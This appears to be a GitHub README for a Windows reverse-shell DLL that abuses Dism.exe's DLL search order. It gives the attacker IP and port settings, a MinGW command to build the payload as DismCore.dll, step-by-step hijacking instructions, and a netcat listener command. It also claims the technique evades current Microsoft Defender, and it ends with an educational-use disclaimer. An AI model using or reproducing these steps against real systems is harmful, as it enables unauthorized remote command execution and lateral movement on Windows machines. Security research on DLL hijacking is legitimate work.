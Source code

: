 # Windows DLL Reverse Shell – Dism.exe Hijacking Demo

A minimal Windows DLL that establishes a reverse TCP shell connection to a specified host and port.
Used in a controlled lab to demonstrate **DLL hijacking** through the legitimate Windows binary `Dism.exe`.

## Overview

This DLL connects back to a remote listener and redirects the `cmd.exe` process I/O through the socket, providing remote command execution over TCP.
When placed in the same directory as `Dism.exe`, the process will automatically load it on startup, triggering the reverse shell.

## Configuration

Edit the following values in the source before compilation:

```c
#define REVERSEIP "127.0.0.1"
#define REVERSEPORT 5151
```

Replace them with the attacker's IP and listening port.

## Compilation

Compile using MinGW:

```bash
x86_64-w64-mingw32-gcc -shared reverse_shell.c -o DismCore.dll -lws2_32
```

## DLL Hijacking Demonstration

1. Copy the legitimate binary **`C:\Windows\System32\Dism.exe`** to any writable directory (e.g. Desktop or a test folder).
2. Place the compiled reverse shell DLL in that same folder and **name it exactly `DismCore.dll`**.
3. Start a listener on your attack machine:

   ```bash
   nc -lvnp 5151
   ```
4. Execute the copied `Dism.exe`.
   It will attempt to load `DismCore.dll` from the current directory, find yours, and execute it.
   The reverse shell will connect back to your listener.

## Compatibility

Tested successfully on **Windows 11 24H2 (build 26100)** with **Microsoft Defender (latest version, 2025)**.
The demonstration works without immediate detection, showing how DLL search order can be exploited for local privilege abuse or lateral movement scenarios.

## Notes

This project is for **educational and research purposes only**.
Do not deploy or distribute outside of controlled, authorized environments.

---
